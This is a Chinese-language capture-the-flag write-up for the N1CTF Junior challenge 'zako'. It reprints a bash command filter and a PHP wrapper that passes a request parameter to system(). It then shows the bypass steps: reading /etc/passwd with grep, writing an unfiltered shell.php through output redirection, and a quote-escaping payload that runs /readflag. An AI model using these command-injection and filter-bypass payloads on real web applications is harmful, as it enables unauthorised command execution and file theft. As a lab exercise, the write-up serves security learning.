


# N1CTF Junior

## zako



/execute.sh拿到一个源码

```sh
#!/bin/bash
 
reject() {
    echo "${1}"
    exit 1
}
 
XXXCMD=$1
 
awk -v str="${XXXCMD}" '
BEGIN {
    deny="`;&$(){}[]!@#$%^&*-";
    for (i = 1; i <= length(str); i++) {
        char = substr(str, i, 1);
        for (x = 1; x < length(deny) + 1; x++) {
            r = substr(deny, x, 1);
            if (char == r) exit 1;
        }
    }
}
'
 
[ $? -ne 0 ] && reject "NOT ALLOW 1"
 
eval_cmd=$(echo "${XXXCMD}" | awk -F "|" '
BEGIN {
    allows[1] = "ls";
    allows[2] = "makabaka";
    allows[3] = "whoareu";
    allows[4] = "cut~no";
    allows[5] = "grep";
    allows[6] = "wc";
    allows[7] = "杂鱼杂鱼";
    allows[8] = "netstat.jpg";
    allows[9] = "awsl";
    allows[10] = "dmesg";
    allows[11] = "xswl";
}{
    num = 1;
    for (i = 1; i <= NF; i++) {
        for (x = 1; x <= length(allows); x++) {
            cmpstr = substr($i, 1, length(allows[x]));
            if (cmpstr == allows[x])
                eval_cmd[num++] = $i;
        }
    }
}
END {
    for (i = 1; i <= length(eval_cmd); i++) {
        if (i != 1)
            printf "| %s", eval_cmd[i];
        else
            printf "%s", eval_cmd[i];
    }
}'
)
 
[ "${XXXCMD}" = "" ] && reject "NOT ALLOW 2"
 
eval ${eval_cmd}
```

也就是一个waf，只有这几个命令有点用

```
wc：查看文件行数情况，不可以读取内容
grep：可读取文件内容
ls：。。。
还设置了一个shell环境下的黑名单deny=";&$(){}[]!@#$%^&*-“;，过滤了一些特殊字符
```

然后使用grep '...' ./index.php读了一下源码又一个waf

```php
<?php
 
//something hide here
highlight_string(shell_exec("cat ".__FILE__." | grep -v preg_match | grep -v highlight"));
 
$cmd = $_REQUEST["__secret.xswl.io"];
if (strlen($cmd)>70) {
    	die("no, >70");
}
if (preg_match("/('|`|\n|\t|\\\$|~|@|#|;|&|\\||-|_|\\=|\\*|!|\\%|\\\^|index|execute')/is",$cmd)){
    	die("你就不能绕一下喵");
}
 
system("./execute.sh '".$cmd."'");
 
?>
```

然后直接使用grep "/" /etc/passwd读



emm，可以读，然后读flag，无

有waf1，和waf2只要少了一个waf好像就能直接拿到flag了

然后通过grep读出shell.php到当前目录下

```php
<?php
$cmd = $_REQUEST["__secret.xswl.io"];
system("./execute.sh '".$cmd."'");
?>
```

命令：

```shell
?_[secret.xswl.io=grep "<?php" inde?.php >> shell.php
?_[secret.xswl.io=grep "cmd" inde?.php >> shell.php
?_[secret.xswl.io=grep "system" inde?.php >> shell.php
```

读进来了


ok  

```
ls'|/readflag'     
```


